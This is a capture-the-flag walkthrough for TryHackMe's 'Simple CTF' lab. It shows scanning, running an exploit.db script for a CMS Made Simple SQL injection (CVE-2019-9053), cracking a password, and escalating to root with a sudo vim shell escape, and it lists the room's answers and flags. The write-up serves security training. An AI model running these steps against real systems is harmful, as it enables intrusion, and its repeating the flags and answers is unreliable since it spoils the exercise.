






# Simple CTF

> Platform: TryHackMe
>
> Created by: MrSeth6797 and l000g1c
>
> Difficulty: Easy

## Reconnaisance

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA easyctf
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:



**Question: How many services are running under port 1000?**

**Answer: 2**

**Question: What is running on the higher port?**

**Answer: ssh**

Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```



Now, let's try to go to the **"/simple/"** page.



After some several times looking through the page, we found out that the web is running using CMS Made Simple version 2.2.8 and found the CVE which is a blind time SQLi vulnerabilities.

**Question: What's the CVE you're using against the application?**

**Answer: CVE-2019-9053**

**Question: To what kind of vulnerability is the application vulnerable?**

**Answer: sqli**

## Exploitation

Then, search for the scripts for the CVE from the exploit.db and run it.
```bash
$ python2 exploit.py -u http://<TARGET-IP>/simple/ --crack -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt
```



**Question: What's the password?**

**Answer: secret**

**Question: Where can you login with the details obtained?**

**Answer: ssh**



Nice, now let's check what user is we connecting as, the other user in the home directory and get the user.txt first:
```bash
$ whoami
mitch

$ ls /home
mitch sunbath

$ cat user.txt
G00d j0b, keep up!
```

## 🏳️Flag: user.txt
>**G00d j0b, keep up!**

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the sudo permission first
```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

**Question: What can you leverage to spawn a privileged shell?**

**Answer: vim**

Now, let's check how can we spawn a privilege shell using vim. From [GTFObins - Vim](https://gtfobins.github.io/gtfobins/vim/), we can get privilege shell running the command from the Sudo section.
```bash
$ sudo vim -c ':!/bin/sh'

$ whoami
root
```

Now, we need to read the **"root.txt"** file to complete this machine.



## 🏳️Flag: root.txt
>**W3ll d0n3. You made it!**